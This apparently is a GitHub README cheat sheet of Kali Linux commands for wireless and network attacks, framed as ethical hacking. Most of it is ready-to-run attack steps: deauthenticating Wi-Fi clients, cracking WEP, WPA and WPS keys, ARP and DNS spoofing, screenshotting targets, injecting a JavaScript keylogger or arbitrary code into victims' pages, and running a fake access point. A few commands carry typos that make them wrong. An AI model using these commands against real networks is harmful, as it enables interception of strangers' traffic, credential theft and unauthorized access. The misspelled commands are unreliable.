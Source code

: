 # Useful Hacking and Penetration Testing Commands

Useful commands in Kali Linux for penetration testing and ethical hacking

## Basic Linux commands: Device information

1. zip a file: `tar czvf <filename>`
2. unzip file: `tar xzvf <filename>`
3. network info: `netstat`
4. last user logged in the system: `last`
5. who is logged in: `who` or `w`: 
6. network downloader: `wget <url-link>`
7. change permission: `chmod`
8. send file to a remote computer: `scp /path/to/file username@remoteIP:~/path/to/file`
9. From remote server to local computer: `scp username@remoteIP:~/path/to/file /path/to/file` 
10. View information about your own device: `ifconfig`
11. Veiw information about wireless interfaces: `iwconfig`
12. Change wireless adapter into monitor mode: `iwconfig <InterfaceName> mode monitor`



## Preconnection Attack: Airodump-ng

Discover wireless networks within range:
```bash
airodump-ng wlan0
```

To sniff packets in the selected network: 

```bash
airodump-ng --bssid <TargetMacAddress> --channel <ChannelOfTargetNetwork> --write <FileName> <interface> 
```

The test file will be available with the .cap file. 
View the .cap file in ```wireshark test.cap```

## Deauthentication Attack

Disconnect any client fromm any network: 

```bash
aireplay-ng --dauth <NumOfPackets> -a <NetworkMacaddress> -c <TargetClientMacAddress> -e <WifiNname> <iterface-wlan0>
```
## WEP Cracking

1. Capture a large number of packets with airodump-ng
```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
2. Analyse the captured packets and crack the key with aircrack-ng
```bash
aircrack-ng .capfile
```
3. output: KEY IS FOUND
4. Remove the colons from the key and use it as password

## Fake Authentication Attack

```bash
aireplay-ng --fakeauth 0 -a <TargetMacAddress> -h <WirelessAdapterMacAddress> <interface>
```
**NOTE: Type "ifconfig" to view wireless adapter mac address (unspec ---> first 12 digits)**

This attack injects packets in the network.

## WPA/WPA2
If WPS is Enable:
1. Displays networks with WPS enabled
```bash 
wash --interface wlan0
```
2. 
```bash
aireplay-ng --fakeauth <30> -a <TargetMacAddress> --interface <wlan0>
```
3. Run Reaver in another terminal window
```bash
reaver --bssid <TargetMacAddress> --channel <TargetChannel> --interface <wlan0> -vvv --no-associate
```
**NOTE: if bug error, then download older version of reaver and run ./reaver ____**

4. Results: WPS PIN and WPA PSK

If WPS is disable:
1. Capture Handshake between devices
```bash
airodump-ng --bssid <TargetMacAddress> --channel <Channel> --write <handshake> <wlan0>
```
- Wait for the handshake
- wait for a new client or disconnect a client with a fake auth attack. 
- WPA handshake stored in the file 

- Create a wordlist
```bash 
crunch [min][max][characters] -T[pattern] -o [FileName]
```
Example:
```bash
crunch 6 8 abc12 -o test.txt
```
2. Wordlist attack 
```bash
aircrack-ng <handshake.cap> -w <text.txt>
```

## Man In The Middle Attack (MITM)

1. Scan the network IP with `zenmap` 
Example: 192.168.1.1/24

2. To map IP addresses in the network and mac addresses `arp -a`
3. `arpspoof -i <interface> -t <clientIP> <gatewayIP>`
4. In another window. Tell the router I am the victim: `aprspoof -i <interface> -t <gatewayIP> <clientIP>`
5. In another window. Allow Linx be the router and forward packets: `echo 1 > /proc/sys/net/ipv4/ip_forward`

## Man in the Middle Framework (MITMf)

Download the tool `apt-get install mitmf`

```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface>
```
Use wireshark to sniff packets

## DNS Spoofing with MITMf
1. Start the web server: `service apache2 start` (var/www/html)
2. Configure the A records and add the domain you want to change into your IP address (*.___.com = <MyIPAddress>): 
`leafpad /etc/mitmf/mitmf.conf`
3. `mitmf --arp --spoof --gateway <routerIP> --target <targetIP> -i <interface> --dns`

## Capturing Screen of Target with MITMf
Takes screenshots of the target machine 
They are stored into ghe log directory `var/log/mitmf/
(--screenshotter)
```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --screen --interval <seconds>
```

## JS Keylogger with MITMf
Injects javascript key logger into a client's webpage
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --jskeylogger
```

## MITMf code injection
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-payload <"javascriptcode">
```
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-file </path/to/jsfile>
```

**NOTE: if working in real network:**
- Disconnect from virtual network --> Devices --> network --> uncheck (offline) 

## Creating Fake Access Point 
1. Download tool `apt-get intall manatoolkit`
2. `start-nat-simple.sh`
3. Edit the settings: `leafpad /etc/mana-toolkit/hostapd-mana.conf`
- Change interface = wlan0
- ssid = name of the fake network
4. Edit: `leafpad /usr/share/mana-toolkit/run-mana/start-nat/simple.sh`
- upstream = eth0
- phy = wlan0
5. start fake AP: `bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`
6. Test it with phone or other machine, NOT host machine. 

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)